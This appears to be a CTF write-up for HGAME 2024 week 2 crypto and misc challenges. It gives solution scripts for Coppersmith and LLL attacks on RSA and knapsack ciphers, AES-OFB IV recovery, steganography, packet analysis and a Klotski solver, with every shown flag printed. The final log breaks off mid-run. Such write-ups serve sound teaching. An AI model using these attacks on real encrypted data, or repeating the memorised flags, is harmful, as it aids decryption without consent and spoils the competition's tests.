`hgame{df3972d1b09536096cc4dbc5c}`

## Crypto

### midRSA （非预期）

> 题目描述：兔兔梦到自己变成了帕鲁被 crumbling 抓去打黑工，醒来后连夜偷走了部分 flag
> **Hint1：**题目存在较为严重的非预期，调整为 50 分，稍后会上线 revenge 版本，影响大家做题非常抱歉！

flag 太短了，这个 shr 没有丢失信息。

```python
from Crypto.Util.number import *
from pwn import *

m0 = 13292147408567087351580732082961640130543313742210409432471625281702327748963274496942276607

success(long_to_bytes(m0 << 208).decode(errors="ignore"))
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_2> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_2/midRSA/sol.py
[+] hgame{0ther_cas3s_0f_c0ppr3smith}
PS D:\Workspace\rev\hgame_2024\week_2>
```

`hgame{0ther_cas3s_0f_c0ppr3smith}`

### backpack （非预期）

> 题目描述：crumbling 的游戏已经玩到了中期，打算带着帕鲁搬家到新据点，你来帮他研究一下背包管理
> **Hint1：**题目存在较为严重的非预期，调整为 50 分，稍后会上线 revenge 版本，影响大家做题非常抱歉！

xor 的 p 移位后只剩 12 位了。

```python
from Crypto.Util.number import *
from pwn import *

enc = 871114172567853490297478570113449366988793760172844644007566824913350088148162949968812541218339

success(long_to_bytes(enc).decode(errors="ignore"))
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_2> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_2/backpack/sol.py
[+] hgame{M@ster_0f ba3kpack_m4nag3ment!}#
PS D:\Workspace\rev\hgame_2024\week_2>
```

`hgame{M@ster_0f ba3kpack_m4nag3ment!}`

### midRSA revenge

> 题目描述：兔兔梦到自己变成了帕鲁被 crumbling 抓去打黑工，醒来后连夜偷走了部分 flag
> 说明：150 拆分为原题 +revenge 版本分数

Coppersmith's attack。

<https://github.com/ashutosh1206/Crypton/blob/master/RSA-encryption/Attack-Coppersmith/README.md>

<https://crypto.stackexchange.com/questions/54822/coppersmiths-method-implementation>

```python
from sage.all import *

def stereotyped(f, N, denom):
    P.<x> = PolynomialRing(Zmod(N))
    beta = 1
    dd = f.degree()
    epsilon = beta / denom
    XX = ceil(N**((beta**2 / dd) - epsilon))
    rt = f.small_roots(XX, beta, epsilon)
    return rt

n = 27814334728135671995890378154778822687713875269624843122353458059697288888640572922486287556431241786461159513236128914176680497775619694684903498070577307810263677280294114135929708745988406963307279767028969515305895207028282193547356414827419008393701158467818535109517213088920890236300281646288761697842280633285355376389468360033584102258243058885174812018295460196515483819254913183079496947309574392848378504246991546781252139861876509894476420525317251695953355755164789878602945615879965709871975770823484418665634050103852564819575756950047691205355599004786541600213204423145854859214897431430282333052121
c = 456221314115867088638207203034494636244706611111621723577848729096069230067958132663018625661447131501758684502639383208332844681939698124459188571813527149772292464139530736717619741704945926075632064072125361516435631121845753186559297993355270779818057702973783391589851159114029310296551701456748698914231344835187917559305440269560613326893204748127999254902102919605370363889581136724164096879573173870280806620454087466970358998654736755257023225078147018537101
m0 = 9999900281003357773420310681169330823266532533803905637
m = m0 << 128
e = 5

P.<x> = PolynomialRing(Zmod(n))
f = (m + x)**e - c
roots = stereotyped(f, n, 100)

print(roots)
```

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2/midRSA$ sage ./sol_revenge.sage
[64407713309761574567155109851720545149]
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2/midRSA$
```

```python
from Crypto.Util.number import *
from pwn import *

m0 = 9999900281003357773420310681169330823266532533803905637
m = 64407713309761574567155109851720545149

success(long_to_bytes(m0).decode(errors="ignore") + long_to_bytes(m).decode(errors="ignore"))
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_2> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_2/midRSA/sol2.py
[+] hgame{c0ppr3smith_St3re0typed_m3ssag3s}
PS D:\Workspace\rev\hgame_2024\week_2>
```

`hgame{c0ppr3smith_St3re0typed_m3ssag3s}`

### backpack revenge

> 题目描述：crumbling 的游戏已经玩到了中期，打算带着帕鲁搬家到新据点，你来帮他研究一下背包管理
> 说明：原分数 150 已拆解成原题 +revenge 版本的分数

Knapsack Cryptosystem。

搜到两篇文章。第一篇是综述，第二篇是算法优化。

给定数据的密度满足要求，可以使用 CJLOSS 算法进行多项式时间求解。

```python
#!/usr/bin/env sage
# sol2_1.sage

import math

import gmpy2
from sage.all import *
from sympy import nextprime

a = [
    74763079510261699126345525979,
    51725049470068950810478487507,
    47190309269514609005045330671,
    64955989640650139818348214927,
    68559937238623623619114065917,
    72311339170112185401496867001,
    70817336064254781640273354039,
    70538108826539785774361605309,
    43782530942481865621293381023,
    58234328186578036291057066237,
    68808271265478858570126916949,
    61660200470938153836045483887,
    63270726981851544620359231307,
    42904776486697691669639929229,
    41545637201787531637427603339,
    74012839055649891397172870891,
    56943794795641260674953676827,
    51737391902187759188078687453,
    49264368999561659986182883907,
    60044221237387104054597861973,
    63847046350260520761043687817,
    62128146699582180779013983561,
    65109313423212852647930299981,
    66825635869831731092684039351,
    67763265147791272083780752327,
    61167844083999179669702601647,
    55116015927868756859007961943,
    52344488518055672082280377551,
    52375877891942312320031803919,
    69659035941564119291640404791,
    52563282085178646767814382889,
    56810627312286420494109192029,
    49755877799006889063882566549,
    43858901672451756754474845193,
    67923743615154983291145624523,
    51689455514728547423995162637,
    67480131151707155672527583321,
    59396212248330580072184648071,
    63410528875220489799475249207,
    48011409288550880229280578149,
    62561969260391132956818285937,
    44826158664283779410330615971,
    70446218759976239947751162051,
    56509847379836600033501942537,
    50154287971179831355068443153,
    49060507116095861174971467149,
    54236848294299624632160521071,
    64186626428974976108467196869,
]
bag = 1202548196826013899006527314947

def enc(p: int, a: list[int]) -> int:
    bag = 0
    for i in a:
        temp = p % 2
        bag += temp * i
        p = p >> 1
    return bag

d = len(a) / math.log2(max(a))
print(f"d = {d}")
assert d < 0.9408

n_bits = len(a)
N = nextprime(gmpy2.iroot(n_bits, 2)[0] // 2)
L = Matrix(QQ, n_bits + 1, n_bits + 1)
for i in range(n_bits):
    L[i, i] = 1
    L[i, n_bits] = a[i] * N
    L[n_bits, i] = 1 / 2
L[n_bits, n_bits] = bag * N
res = L.LLL()

for i in range(0, n_bits + 1):
    M = res.row(i).list()[:-1]
    if all(m in (1 / 2, -1 / 2) for m in M):
        mm = "".join(map(lambda x: "1" if x == -1 / 2 else "0", M))
        break
else:
    print("Not solvable")
    exit(1)

flag = mm[::-1]
flag_int = int(flag, 2)

assert enc(flag_int, a) == bag
print(f"flag_int = {flag_int}")
```

```python
#!/usr/bin/env python3
# sol2_2.py

import hashlib

from pwn import *

flag_int = input("flag_int = ")
success(f"flag: hgame{{{hashlib.sha256(flag_int.encode()).hexdigest()}}}")
```

```bash
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2/backpack$ sage ./sol2_1.sage
d = 0.5004362519031289
flag_int = 268475474669857
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2/backpack$ python ./sol2_2.py
flag_int = 268475474669857
[+] flag: hgame{04b1d0b0fb805a70cda94348ec5a33f900d4fd5e9c45e765161c434fa0a49991}
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2/backpack$
```

`hgame{04b1d0b0fb805a70cda94348ec5a33f900d4fd5e9c45e765161c434fa0a49991}`

### babyRSA

>

题目给了 gift，$\mathrm{gift}\equiv \left(e + 114514 + p^k\right)^{0\mathrm{x}10001} \mod p$底数的第三项可以直接丢掉，让我们得到 e。由于$n=p^4 \cdot q$，所以$\lambda(n)=\mathrm{lcm}\left(\lambda(p^4),\lambda(q)\right)=\mathrm{lcm}\left((p-1)p^3,q-1\right)$。

可惜的是$\gcd\left(e,\lambda(n)\right) = e \neq 0$，所以没法直接求逆元。

直接实现一个这里面的算法可解。

```python
from math import gcd, lcm

from Crypto.Util.number import *
from pwn import *
from tqdm import tqdm

p = 14213355454944773291
q = 61843562051620700386348551175371930486064978441159200765618339743764001033297
c = 105002138722466946495936638656038214000043475751639025085255113965088749272461906892586616250264922348192496597986452786281151156436229574065193965422841
gift = 9751789326354522940

e = -1
for ex in tqdm(range(1, 1000000)):
    if pow(ex, 0x10001, p) == gift:
        e = ex - 114514
        break
assert pow(e + 114514 + p ** getPrime(16), 0x10001, p) == gift
success(f"e = {e}")

n = p**4 * q
info(f"n = {n}")

lam_n = lcm(p**3 * (p - 1), q - 1)
info(f"gcd(e, lambda(n)) = {gcd(e, lam_n)}")

phi = lam_n // e
g = 1
ge = 1
while ge == 1:
    g = g + 1
    ge = pow(g, phi, n)
info(f"ge = {ge}")
d = inverse(e, phi)
info(f"d = {d}")

a = pow(c, d, n)
l = 1 % n
results: list[bytes] = []
for i in range(0, e):
    x = (a * l) % n
    results.append(long_to_bytes(x))
    l = (l * ge) % n

flag = b""
for i, r in tqdm(enumerate(results)):
    if r.startswith(b"hgame"):
        flag = r
        break
else:
    error("Flag not found")
    exit(1)
success(f"{flag}")
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_2> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_2/babyRSA/sol.py
 19%|██▋           | 188074/999999 [00:00<00:01, 722439.40it/s]
[+] e = 73561
[*] n = 2523951265609053753877704763332232130251354957806920422624728923457116929548686356900491870427050872201150209556443712014800809570315060062302624905430017
[*] gcd(e, lambda(n)) = 73561
[*] ge = 540596929952313637296358452649918767934820433419368872276089942320938356047681129548339594245166317478978890118045421507573873592741383986823179405155912
[*] d = 3118312309964509553474229947630876368235010556775412179069521055424098521878619971761642349351001949710213369666007801841326486248656681771608010361
42626it [00:00, 5328159.81it/s]
[+] b'hgame{Ad1eman_Mand3r_Mi11er_M3th0d}'
PS D:\Workspace\rev\hgame_2024\week_2>
```

`hgame{Ad1eman_Mand3r_Mi11er_M3th0d}`

### 奇怪的图片 plus

> 另一些奇怪的图片

首先是 ECB 模式的 statistical pattern leak。不难构造题目需要的图片。

```python
import itertools as it

import numpy as np
from PIL import Image
from pwn import *

TARGET_BLOCK_SIZE = 16
SCALE_FACTOR = 3 * TARGET_BLOCK_SIZE

target_image = Image.open("./奇怪的图片plus/target.png")
chunks_black = [
    (x, y)
    for x, y in it.product(range(target_image.size[0]), range(target_image.size[1]))
    if target_image.getpixel((x, y)) == (0, 0, 0)
]
new_width, new_height = (
    SCALE_FACTOR * target_image.size[0],
    SCALE_FACTOR * target_image.size[1],
)
info(f"New size: W {new_width} H {new_height}")
info(f"# Ident chunks: {len(chunks_black)}")

img_arr_1 = (np.random.rand(new_width, new_height, 3) * 256).astype(np.uint8)
img_arr_2 = (np.random.rand(new_width, new_height, 3) * 256).astype(np.uint8)

mask_ident = np.zeros_like(img_arr_1).astype(np.bool_)
for x, y in chunks_black:
    for i in range(x * SCALE_FACTOR, (x + 1) * SCALE_FACTOR):
        for j in range(y * SCALE_FACTOR, (y + 1) * SCALE_FACTOR):
            mask_ident[i, j, :] = True

img_arr_1[mask_ident == True] = 0
img_arr_2[mask_ident == True] = 0

img_1 = (
    Image.fromarray(img_arr_1, mode="RGB")
    .transpose(Image.Transpose.ROTATE_90)
    .transpose(Image.Transpose.FLIP_TOP_BOTTOM)
)
img_2 = (
    Image.fromarray(img_arr_2, mode="RGB")
    .transpose(Image.Transpose.ROTATE_90)
    .transpose(Image.Transpose.FLIP_TOP_BOTTOM)
)

img_1.save("./奇怪的图片plus/submit_1.png")
img_2.save("./奇怪的图片plus/submit_2.png")
```


```plain-text
PS D:\Workspace\rev\hgame_2024\week_2\奇怪的图片plus> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_2/奇怪的图片plus/client.py
input uri: ws://106.14.57.14:31489
type 'help' to get help
Msg from server: Pls send two images that meet the following conditions
Msg from server: The black pixels in 'xor_images(image_1, image_2)' should match those in 'target'
Msg from server: Note: The server has scaling function during validation! XD
help
send_img: send_img <path_to_img_1> <path_to_img_2>
check: check
help: help
exit: exit
send_img ./submit_1.png ./submit_2.png
Msg from server: Image_1 received
Msg from server: Image_2 received
check
Msg from server: Here is your gift: 8693346e81fa05d8817fd2550455cdf6
exit
Msg from server: 
socket is already closed.
```

得到 Key：`8693346e81fa05d8817fd2550455cdf6`。

接下来是已知密文和密钥，计算 AES-OFB 模式的 IV。观察加密代码：

```python
def draw_text(image, width, height, token):
    font_size = 20
    font = ImageFont.truetype("arial.ttf", font_size)
    text_color = (255, 255, 255)
    x = 0
    y = (height // 2) - 10
    draw = ImageDraw.Draw(image)
    draw.text((x, y), token, font=font, fill=text_color)
    pixels = image.load()
    for x in range(width):
        for y in range(height):
            if pixels[x, y] != (0, 0, 0):
                pixels[x, y] = (random.randint(0, 255), random.randint(0, 255), random.randint(0, 255))
    return image

flag = "hgame{fake_flag}"
flag_image = Image.new("RGB", (200, 150), "black")
flag_image = draw_text(flag_image, 200, 150, flag[6:-1])
key = os.urandom(16) # gift
iv = os.urandom(16)
F = AES.new(key=key, mode=AES.MODE_OFB, iv=iv)
m = pad(image_to_bytes(flag_image), F.block_size)
c = F.encrypt(m)
encrypted_image = bytes_to_image(c, 200, 150)
encrypted_image.save("encrypted_flag.png")
```

文字区域是彩色的，其他区域是(0, 0, 0)。我们不妨大胆假设明文的第一个块中全是 0。由于 AES-OFB 密钥流的第一个块数值上等于密文的第一个块，我们可以方便地使用 ECB 模式解密一次得到 IV。


```python
import itertools as it
import struct

from Crypto.Cipher import AES
from Crypto.Util.number import long_to_bytes
from PIL import Image
from pwn import *

def image_to_bytes(image):
    width, height = image.size
    pixel_bytes = []
    for y in range(height):
        for x in range(width):
            pixel = image.getpixel((x, y))
            pixel_bytes.extend(struct.pack("BBB", *pixel))
    image_bytes = bytes(pixel_bytes)
    return image_bytes

def bytes_to_image(image_bytes, width, height):
    pixel_bytes = list(image_bytes)
    reconstructed_image = Image.new("RGB", (width, height))
    for y in range(height):
        for x in range(width):
            start = (y * width + x) * 3
            pixel = struct.unpack("BBB", bytes(pixel_bytes[start : start + 3]))
            reconstructed_image.putpixel((x, y), pixel)
    return reconstructed_image

flag_image = Image.open("./奇怪的图片plus/encrypted_flag.png")
key = long_to_bytes(int("8693346e81fa05d8817fd2550455cdf6", base=16))
c = image_to_bytes(flag_image)

c0 = c[0 : AES.block_size]
m0 = bytes(it.repeat(0, len(c0)))
k0 = bytes((ci ^ mi for ci, mi in zip(c0, m0)))
info(f"c0: {c0}")
info(f"m0: {m0}")
info(f"k0: {k0}")

Fprime = AES.new(key=key, mode=AES.MODE_ECB)
iv = Fprime.decrypt(k0)
success(f"iv: {iv}")

F = AES.new(key=key, mode=AES.MODE_OFB, iv=iv)
c = F.decrypt(c)
encrypted_image = bytes_to_image(c, *flag_image.size)
encrypted_image.save("./奇怪的图片plus/flag.png")
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_2> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_2/奇怪的图片plus/sol_decrypt.py     
[*] c0: b'm/\x07$\x9c\x19\x1f\xf7\x17ey\xd4\\\xe5\xba\x0f'
[*] m0: b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
[*] k0: b'm/\x07$\x9c\x19\x1f\xf7\x17ey\xd4\\\xe5\xba\x0f'
[+] iv: b'\xee M\xe4\x05\n\xd4A\xefw\x8b-!V\x19\x8f'
PS D:\Workspace\rev\hgame_2024\week_2>
```



`hgame{1ad4_80cc_1fb2_be7c}`

## Misc

### ek1ng_want_girlfriend

> An introducation to Wireshark and also ek1ng.

简单 Wireshark 使用。



最开始几个包中就有一个 http 请求。直接 follow HTTP stream，然后把包体导出来，发现是个 JPG 文件。


OCR 能得到结果。

`hgame{ek1ng_want_girlfriend_qq_761042182}`

### 龙之舞

> 新年快要到了，来看看龙年的龙之舞吧(～￣▽￣)～
> 请注意，拿到**正确**的二维码后解码就是 flag 但是一开始未必正确

~~https://ryan.govost.es/2018/03/09/deepsound.html~~

~~<https://github.com/openwall/john/blob/bleeding-jumbo/run/deepsound2john.py>~~

DeepSound 密钥破解。



`KEY: 5H8w1nlWCX3hQLG`

拼接后的第一个二维码扫不出来。


考虑格式信息被破坏了。使用 https://merri.cx/qrazybox/尝试恢复。


右边是扫得出来的。



`hgame{drag0n_1s_d4nc1ng}`

### ezWord

> 通过破译图片的水印来解开文档里的秘密吧！

解包 Word 文件发现一些附件：一个加密的 ZIP，两张初音的图片（原图来自 pixiv <https://www.pixiv.net/en/artworks/100191209>）和一份说明。

考虑 PNG 隐写。

<https://github.com/chishaxie/BlindWaterMark>



ZIP 压缩文件密码为 `T1hi3sI4sKey`。解开后得到另一个文件。

<https://forums.anandtech.com/threads/not-spam.712117/>

<https://www.spammimic.com/decode.shtml>

解码后得到很多 utf-8 编码的 CJK 字符。



观察到其前五项的 Unicode codepoint 相对差值与 `b"hgame"` 类似，考虑加法解密。编写脚本计算偏移并解码。

<https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,true)To_Charcode('Comma',10)&input=NTdHeDU3R3c1N0dxNTdHMjU3R3U1N0tFNTdDNTU3RzA1N0dvNTdLQzU3RzQ1N0crNTdHbzU3Rzg1N0M1NTdHMTU3Ry81N0d1NTdHbzU3R3E1N0cxNTdDNjU3R281N0c5NTdHeDU3Qzg1N0dvNTdHODU3R3U1N0dzNTdHNzU3Qzg1N0c5NTdLRw>

```plain-text
PS D:\Workspace\rev\hgame_2024\week_2> python
Python 3.11.6 (tags/v3.11.6:8b6ee5b, Oct  2 2023, 14:57:12) [MSC v.1935 64 bit (AMD64)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> arr = [31857,31856,31850,31862,31854,31876,31801,31860,31848,31874,31864,31870,31848,31868,31801,31861,31871,31854,31848,31850,31861,31802,31848,31869,31857,31804,31848,31868,31854,31852,31867,31804,31869,31878]
>>> offset = ord("h") - arr[0]
>>> print("".join(map(lambda x: chr(x + offset), arr))) 
hgame{0k_you_s0lve_al1_th3_secr3t}
>>> exit()
PS D:\Workspace\rev\hgame_2024\week_2>
```

`hgame{0k_you_s0lve_al1_th3_secr3t}`

### 我要成为华容道高手

> 华容道是古老的中国民间益智游戏，以其变化多端、百玩不厌的特点与魔方、独立钻石一起被国外智力专家并称为“智力游戏界的三个不可思议”。它与七巧板、九连环等中国传统益智玩具还有个代名词叫作“中国的难题”。
> 通过移动各个棋子，帮助曹操从初始位置移到棋盘最下方中部，从出口逃走。不允许跨越棋子，还要设法用最少的步数把曹操移到出口。曹操逃出华容道的最大障碍是关羽，关羽立马华容道，一夫当关，万夫莫开。关羽与曹操当然是解开这一游戏的关键。四个刘备军兵是最灵活的，也最容易对付，如何发挥他们的作用也要充分考虑周全。
> 柏喵喵本人认为华容道对于初学者的最大的困境在于，人类容易在反复的滑动中陷入一个死循环，迷失循环的出口。但是计算机并不会，只要你给他初始状态和状态转移函数，再对走过的状态做一个标记，它一定能完完整整地遍历完所有情况。
> 现在，由你，用你的代码，终结这个游戏

简单 BFS。但是不用手写，因为有人写了库。

求解器：

```javascript
const process = require("process");
const Klotski = require("klotski");

const ID_TARGET = 5;
const ID_BLOCK = 2;
const ID_VERT_I = 3;
const ID_HORIZ_I = 4;
const ID_SPACE = 0;
const ID_BODY_ = 1;

/**
 * @param {string} layout
 * @returns {Array<{shape: [number, number], position: [number, number]}>}
 */
function layoutToBlocks(layout) {
  /**
   * @type {Array<{shape: [number, number], position: [number, number]}>}
   */
  const blocks = [];
  const target_idx = layout.indexOf(ID_TARGET.toString());
  blocks.push({
    shape: [2, 2],
    position: [Math.floor(target_idx / 4), target_idx % 4],
  });
  for (let i = 0; i < layout.length; i++) {
    const position = [Math.floor(i / 4), i % 4];
    switch (layout[i]) {
      case ID_VERT_I.toString():
        shape = [2, 1];
        break;
      case ID_HORIZ_I.toString():
        shape = [1, 2];
        break;
      case ID_BLOCK.toString():
        shape = [1, 1];
        break;
      default:
        continue;
    }
    blocks.push({ shape, position });
  }
  return blocks;
}

const klotski = new Klotski();

const state = layoutToBlocks(process.argv[2]);
const game = {
  blocks: state,
  boardSize: [5, 4],
  escapePoint: [3, 1],
};

const sol = klotski.solve(game);

const steps = [];
for (let i = 0; i < sol.length; i++) {
  const block = state[sol[i].blockIdx];
  const direction = sol[i].dirIdx;
  const origPos = block.position[0] * 4 + block.position[1];
  let mappedDir;
  switch (direction) {
    case 0:
      block.position[0]++;
      mappedDir = 3;
      break;
    case 1:
      block.position[1]++;
      mappedDir = 2;
      break;
    case 2:
      block.position[0]--;
      mappedDir = 1;
      break;
    case 3:
      block.position[1]--;
      mappedDir = 4;
      break;
    default:
      throw new Error(`Invalid direction: ${direction}`);
  }
  steps.push({
    position: origPos,
    direction: mappedDir,
  });
}

process.stdout.write(JSON.stringify(steps));
```

Driver：

```python
import json
import subprocess as sp
import urllib.parse as up

import requests as req
from pwn import *

BASE_URL = "http://106.14.57.14:30016"

def invoke_new_game() -> tuple[int, str]:
    url = up.urljoin(BASE_URL, "/api/newgame")
    resp = req.get(url)
    obj = json.loads(resp.text)
    return obj["gameId"], obj["layout"]

def invoke_submit(game_id: int, steps: str) -> tuple[str, dict]:
    url = up.urljoin(BASE_URL, f"/api/submit/{game_id}")
    resp = req.post(url, data=steps)
    obj = json.loads(resp.text)
    return obj["status"], obj

game_id, layout = invoke_new_game()
info(f"game_id: {game_id}")
while True:
    info(f"layout: {layout}")
    steps = sp.run(
        ("pwsh", "D:/dist/npm/yarn.ps1", "node", "index.js", layout),
        check=True,
        capture_output=True,
    ).stdout.decode("ascii")
    info(f"steps: {steps[0:32]} ... {steps[-32:]}")
    status, obj = invoke_submit(game_id, steps)
    status = status.strip().lower()
    info(f"status: {status}")
    if status == "win":
        success(f"flag: {obj['flag']}")
        break
    elif status == "next":
        layout = obj["game_stage"]["layout"]
    else:
        info(f"obj: {obj}")
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_2\hgame_klotski> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_2/hgame_klotski/sol.py
[*] game_id: 3650162269
[*] layout: 35121112324110332011
[*] steps: [{"position":9,"direction":3},{" ... 4},{"position":9,"direction":3}]
[*] status: next
[*] layout: 22235131111341010241
[*] steps: [{"position":6,"direction":3},{" ... },{"position":14,"direction":4}]
[*] status: next
[*] layout: 25123110133321110412
[*] steps: [{"position":3,"direction":3},{" ... },{"position":14,"direction":4}]
[*] status: next
[*] layout: 51231121414141410220
[*] steps: [{"position":17,"direction":4},{ ... },{"position":14,"direction":4}]
[*] status: next
[*] layout: 35101113233101124122
